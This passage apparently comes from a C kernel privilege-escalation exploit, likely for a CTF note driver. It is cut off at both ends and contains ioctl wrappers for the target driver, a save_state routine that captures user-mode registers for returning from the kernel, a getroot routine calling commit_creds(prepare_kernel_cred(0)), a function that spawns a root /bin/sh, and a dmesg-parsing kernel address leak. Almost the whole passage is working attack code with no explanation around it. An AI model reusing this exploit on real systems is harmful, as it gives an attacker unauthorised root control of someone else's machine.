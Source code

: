 ```
{
    ioctl(fd,888,arg);
}
 
void editFun(int fd, struct editNote* arg)
{
    ioctl(fd,3,arg);
}
 
void readFun(int fd, struct editNote* arg)
{
    ioctl(fd,4,arg);
}
 
 
void save_state() {
   __asm__("mov %cs,user_cs;"
           "mov %ss,user_ss;"
           "mov %rsp,user_sp;"
           "pushf;"
           "pop user_rflags;"
           );
  puts("user states have been saved!!");
}
 
 
void shell(void) {
  printf("[+] getuid() ...");
  if(!getuid()) {
    printf(" [root]\n[+] Enjoy your shell...\n");
    system("/bin/sh");
  } else {
    printf("[+] not root\n[+] failed !!!\n");
  }
}
 
/* function to get root id */
void getroot (void)
{
  commit_creds(prepare_kernel_cred(0));
}
 
unsigned long findAddr() {
 
    char line[512];
    char string[] = "Freeing SMP alternatives memory";
    char found[17];
    unsigned long addr=0;
 
    /* execute dmesg and place result in a file */
    printf("[+] Excecute dmesg...\n");
    system("dmesg > /tmp/dmesg");
 
    printf("[+] Find usefull addr...\n");
    FILE* file = fopen("/tmp/dmesg", "r");
 
    while (fgets(line, sizeof(line), file)) {
        if(strstr(line,string)) {
            strncpy(found,line+53,16);
            sscanf(found,"%p",(void **)&addr);
            break;
        }
    }
```